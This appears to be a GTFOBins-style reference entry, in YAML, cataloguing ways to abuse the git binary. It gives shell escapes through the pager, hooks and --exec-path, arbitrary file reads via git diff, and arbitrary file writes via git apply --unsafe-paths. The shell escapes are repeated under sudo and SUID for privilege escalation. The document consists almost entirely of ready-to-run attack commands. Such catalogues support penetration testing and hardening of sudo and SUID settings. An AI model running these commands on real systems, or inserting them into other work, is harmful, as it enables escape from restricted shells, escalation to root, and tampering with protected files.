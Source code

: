 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git branch --help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        git -C "$TF" commit --allow-empty -m x
    - code: |
        TF=$(mktemp -d)
        ln -s /bin/sh "$TF/git-x"
        git "--exec-path=$TF" x
  file-read:
    - description: The read file content is displayed in `diff` style output format.
      code: |
        LFILE=file_to_read
        git diff /dev/null $LFILE
  file-write:
    - description: Git apply writes to files specified in the patch when supplied with a directory and the flag `--unsafe-paths`. Patch file must be in the valid format. This creates a new file with two lines.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        echo "--- /dev/null" > "$TF/temp.patch"
        echo "+++ b$LFILE" >> "$TF/temp.patch"
        echo "@@ -0,0 +1,2 @@" >> "$TF/temp.patch"
        echo "+ line_1_content" >> "$TF/temp.patch"
        echo "+ line_2_content" >> "$TF/temp.patch"
        git apply "$TF/temp.patch" --directory / --unsafe-paths
    - description: This removes a line from an existing file and adds a new line.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        echo "--- a$LFILE" > "$TF/temp.patch"
        echo "+++ b$LFILE" >> "$TF/temp.patch"
        echo "@@ -1,4 +1,4 @@" >> "$TF/temp.patch"
        echo " this is a test" >> "$TF/temp.patch"
        echo " with multiple lines" >> "$TF/temp.patch"
        echo "-this line will be removed" >> "$TF/temp.patch"
        echo " this line will have another after" >> "$TF/temp.patch"
        echo "+a new line" >> "$TF/temp.patch"
        git apply "$TF/temp.patch" --directory / --unsafe-paths
        
  sudo:
    - code: sudo PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        sudo git -C "$TF" commit --allow-empty -m x
    - code: |
        TF=$(mktemp -d)
        ln -s /bin/sh "$TF/git-x"
        sudo git "--exec-path=$TF" x
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

